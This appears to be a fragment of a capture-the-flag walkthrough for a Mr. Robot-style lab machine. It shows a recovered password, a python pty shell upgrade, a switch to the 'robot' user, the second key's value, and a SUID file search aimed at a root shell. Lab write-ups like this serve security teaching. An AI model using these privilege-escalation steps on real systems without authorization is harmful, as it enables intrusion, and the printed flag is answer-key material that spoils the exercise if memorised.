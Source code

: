 <img src="./img/Screenshot 2024-08-24 122540.png"></img>
we got a robot user password
```text
abcdefghijklmnopqrstuvwxyz
```

Now if we put "su robot" it will throw a error because it needs pty terminal
import that terminal.
```text
python -c 'import pty; pty.spawn("/bin/sh")'
```

```text
su robot
password: abcdefghijklmnopqrstuvwxyz
```
now open key file
```text
cat /home/robot/key-2-of-3.txt
```
```text
key-2-of-3.txt
822c73956184f694993bede3eb39f959
```
We got second key successfully.
Get into the root
```text
find / -perm -4000 -type f 2>/tmp/2
```
searched got a command to get the root shell from gtfobins
